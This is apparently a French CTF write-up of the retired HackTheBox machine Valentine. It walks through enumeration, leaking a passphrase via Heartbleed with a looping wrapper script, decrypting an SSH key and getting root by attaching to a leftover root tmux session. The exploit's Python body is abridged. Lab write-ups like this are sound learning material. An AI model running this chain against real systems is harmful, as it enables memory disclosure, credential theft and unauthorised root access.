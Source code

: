 ```yaml
---
title: "Valentine.htb"
date: 2025-08-04
draft: false
ShowToc: true
TocOpen: true
tags: ["HTB", "CTF", "Heartbleed", "Tmux", "Linux"]
categories: ["HackTheBox", "Easy"]
---
```

> **Résumé** — Exploitation de Heartbleed (CVE-2014-0160) pour récupérer un mot de passe, déchiffrer une clé SSH, puis escalader via une session tmux root oubliée.

{{< tagsline >}}

## Introduction
Writeup complet de la machine Valentine.htb (retired), incluant Heartbleed, extraction de clé SSH et escalade de privilèges via tmux

---

{{< figure src="image.png" alt="Valentine.htb" caption="Page principale" >}}

##  Énumération

### Scan initial

```bash
nmap -sC -sV -p- valentine.htb
```

Ports ouverts :

- 22/tcp → OpenSSH 6.6.1
- 80/tcp → Apache 2.2.22 (Ubuntu)

Le site web révèle une interface avec des champs `encode`/`decode`, probablement base64.

```bash
curl http://valentine.htb
```

La page `/dev` contient deux fichiers intéressants :

- `hype_key`
- `notes.txt`

### Analyse initiale

Le fichier `notes.txt` donne un indice sur l’encodeur/décodeur :

> Don't use the decoder/encoder until any of this is done.

Cela laisse penser que des failles côté client sont en jeu, mais sans encoder JS actif, rien d’immédiat.

Le fichier `hype_key` semble être un dump hexadécimal d'une clé SSH privée (confirmé par `file`).

```bash
file hype_key
# ASCII text, with very long lines
```

Contenu analysé : ce n’est pas une image, ni du base64. Probablement une clé SSH.

---

## Exploitation - Prise Pied

### Heartbleed (CVE-2014-0160)
Le port 443 est actif, et un scan `nmap` confirme la vulnérabilité Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

###  Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---

### Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## Escalade de privilèges

Après avoir obtenu un shell SSH en tant que l’utilisateur `hype`, j’ai lancé un classique :

```bash
linpeas.sh
```

💡 **LinPEAS** a mis en évidence la présence d’un processus tmux tournant en tant que root, avec cette ligne intrigante :

```bash
root   1040  0.0  0.1  26416  1672 ?  Ss  01:24   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

### Analyse

Le socket tmux (`-S /.devs/dev_sess`) est accessible (lecture/exécution) par l’utilisateur `hype`.

Le processus appartient à `root`, ce qui signifie que la session associée pourrait être `root` attachée !

### Tentatives manuelles

Liste des sessions disponibles :

```bash
tmux -S /.devs/dev_sess ls
```

Connexion à la session existante :

```bash
tmux -S /.devs/dev_sess attach
```

###  Et là, bingo !

J’ai accédé à une session interactive **root** encore ouverte. Probablement laissée là par un admin négligent, ou par un script de debug.

###  Preuve

```bash
root@Valentine:/# id
uid=0(root) gid=0(root) groups=0(root)
```



## Les Flags

```bash
cat /home/hype/user.txt
cat /root/root.txt
```

---

## Pièces jointes

- [heartbleed_full.sh](files/heartbleed_full.sh)
- [heartbleed-exploit.py](files/heartbleed-exploit.py)

##  Conclusion

Cette machine montre l’impact réel d’une vulnérabilité critique comme Heartbleed. Avec un peu de persévérance, on remonte jusqu’à une clé SSH, puis une élévation de privilèges via une session `tmux` oubliée.

---

{{< admonition type="tip" title="Astuce" >}}
Toujours vérifier tous les couples `user:pass` en SSH, même s’ils semblent destinés au web.
{{< /admonition >}}

{{< admonition type="warning" title="Tri des dumps" >}}
Garde un fichier concaténé `strings | sort -u` + horodatage pour la reproductibilité.
{{< /admonition >}}

